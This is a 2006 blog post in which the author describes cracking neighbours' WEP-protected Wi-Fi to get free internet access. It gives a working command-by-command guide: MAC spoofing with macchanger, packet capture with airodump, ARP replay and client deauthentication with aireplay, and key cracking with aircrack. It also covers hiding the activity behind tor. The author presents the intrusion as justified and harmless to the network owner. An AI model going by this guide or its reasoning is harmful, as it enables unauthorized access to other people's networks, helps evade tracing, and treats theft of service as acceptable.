 Title: How to Own the Air
Date: 2006-10-20
Modified: 2012-12-22
Tags: wireless, howto, crypto, linux
Slug: how-to-own-the-air

Before moving into my new place last month, I had planned on paying an ISP for internet access. But, complications arose with the company I had chosen, so I decided to cancel my order soon after it was placed. Instead, I planned to borrow internet access from my neighbors (hey, they're pumping signals into my air-space). Trouble was, everyone had encrypted their networks with <a href="http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy">WEP</a>. No doubt this is a good thing, and a vast improvement from the last time I had scanned down here (about 8 months ago), but I wanted in. I was able to justify cracking in to myself by recognizing that my paranoia isn't limited just to the "others" out on the global interwebs -- no, I'd be just as paranoid about the owner of whomever's network I was breaking into watching my traffic. There was no question I'd make ample use of encryption, which, as a side benefit, meant that anything I did through his connection would be rather difficult to trace back. So, he was protected. As long as he wasn't paying for bandwidth by the KB, he'd not be much affected by my leeching. (I use the pronoun "he" because I know now that the owner of my primary network is, in fact, a he -- put a password on your routers, people!).

But there was another problem, in addition to WEP: during reconnaissance, I would rarely pick up any connected clients. Perhaps I was always trying at the wrong time of day. Or perhaps people pay for internet access and never use it. Regardless, it would have taken weeks of constant logging to gather enough IVs to crack the WEP key. So, the first step was to take the money I had saved by canceling my order with the ISP, and invest in a new wireless card that supported packet injection.

The <a href="http://www.proxim.com/products/cp/pc.html" >Proxim 8470-WD</a> (from <a href="http://www.aircrack-ng.org/doku.php?id=faq&DokuWiki=8fb30aa7da2a84fc23999e92b8e641ca#which_is_the_best_card_to_buy" >aircrack-ng's recommended list</a>) caught my eye, though it took a while before I could find it a decent price. To do my initial cracking, I popped in <a href="http://www.backtrack-linux.org/">Backtrack</a> and followed <a href="http://www.aircrack-ng.org/doku.php?id=newbie_guide&DokuWiki=8fb30aa7da2a84fc23999e92b8e641ca" >aircrack-ng's newbie guide</a>. (I had upgraded my trusty old Auditor cd to Backtrack just for this occasion. It's quite the nice distribution.) Within about 5 minutes, I had gained access to the first network. Goes to show how secure WEP is.

Though the Proxim card is plug and play in Ubuntu, the steps to crack WEP are a little different. Here's what I do (note that I do recommend using Backtrack, instead).

First, of course, one must install aircrack:

<pre>sudo apt-get install aircrack</pre>

You may change your mac address manually, or, if you aren't concerned with anonymity, don't change it all. I have a preference of using the <a href="http://www.alobbs.com/macchanger/" >macchanger</a> tool:

<pre>sudo apt-get install macchanger</pre>

Set your card's MAC address randomly. In this case, the network device is at <em>ath0</em>:

<pre>sudo ifconfig ath0 down
sudo macchanger -r ath0
sudo ifconfig ath0 up</pre>

Put your card into monitor mode:

<pre>sudo iwconfig ath0 mode monitor</pre>

Start scanning:

<pre>sudo airodump ath0 dump 0</pre>

In this case, <code>dump</code> is the file prefix for airodump's output and the <code>0</code> tells airodump to channel-hop. Now you want to pick your target network from the scan. It should have at least one client connected (displayed at the bottom of airodump's output), the more the merrier. (Hopefully that client is transmitting data, too.)

When you pick your target, kill the first instance of airodump and start it up again, this time specifying the channel of your target:

<pre>sudo airodump ath0 targetdump 9</pre>

The <code>targetdump</code> is the file prefix and <em>9</em> is the channel. Optionally you can add a <code>1</code> to the end of the command, which tells airodump to only capture <a href="http://en.wikipedia.org/wiki/Initialization_vector" >IV</a>s (which is what you're after). I normally don't bother.

When you've captured somewhere in the range of 250,000 - 500,000 data packets (shown by airodump in the "Packets" column of your target client), you can start cracking:

<pre>aircrack -b 00:12:34:45:78:A3 targetdump.cap</pre>

In this case, <code>-b</code> is the essid of your target network. Cracking could take minutes, hours, days, weeks, months, or years. I've never had to wait over 20 minutes.

But what if the client is being a party-pooper and not transmitting? That's where packet injection comes in. From aircrack's guide:

<blockquote>ARP works (simplified) by broadcasting a query for an IP and the device that has this IP sends back an answer. Because WEP does not protect against replay, you can sniff a packet, send it out again and again and it is still valid. So you just have to capture and replay an ARP-request targeted at the AP to create lots of traffic (and sniff IVs).</blockquote>

You'll want to keep airodump running, so that all the traffic you generate will be captured. In another terminal, start injecting:

<pre>sudo aireplay -3 -b 00:12:34:45:78:A3 -h A3:78:45:34:12:00 ath0</pre>

The <code>-3</code> tells airepay you want to replay ARP requests, <code>-b</code> is that target network, and <code>-h</code> is the client. In a little bit, aireplay should inform you that it has captured 1 (or more) ARP packets. Sit back and watch airodump count up the IVs.

If that pesky client still isn't cooperating, you can give it a little motivation. From aircrack:

<blockquote>Most operating systems clear the ARP cache on disconnection. If they want to send the next packet after reconnection (or just use DHCP), they have to send out ARP requests. So the idea is to disconnect a client and force it to reconnect to capture an ARP-request. A side-effect is that you can sniff the ESSID during reconnection too. This comes in handy if the ESSID of your target is hidden.

...the risk that someone recognizes this attack or at least attention is drawn to the stuff happening on the WLAN is higher than with other attacks.</blockquote>

Keep airodump and aireplay running, and in a new terminal give it a little kick in the butt:

<pre>sudo aireplay -0 5 -a 00:12:34:45:78:A3 -c A3:78:45:34:12:00 ath0</pre>

The first switch, <code>-0</code>, informs aireplay you want to force the client to be unauthenticated, <code>-a</code> is the target network, <code>-c</code> is the target client. When the client reconnects, you should start grabbing ARP requests.

After you have enough packets, crack the WEP key as before.

To manage and connect to my wireless networks, I've taken to using <a href="http://wifi-radar.systemimager.org/" >wifi-radar</a>. It scans for networks, allows you to specify which networks you prefer and, for each network, allows you to set preferences such as the WEP key, whether to use dynamic or static addresses, and the like. What I like best is the connection commands, which allows you to set commands you want executed before wifi-radar connects to the network, and after. In the before field, I have it randomly change my mac address:

<pre>ifconfig ath0 down && macchanger -r ath0 && ifconfig ath0 up</pre>

After it connects, I restart tor:

<pre>/etc/init.d/tor restart</pre>

(As another reference for you, <span class="removed_link">this site</span> keeps turning up as a guide to cracking WEP in Ubuntu.)
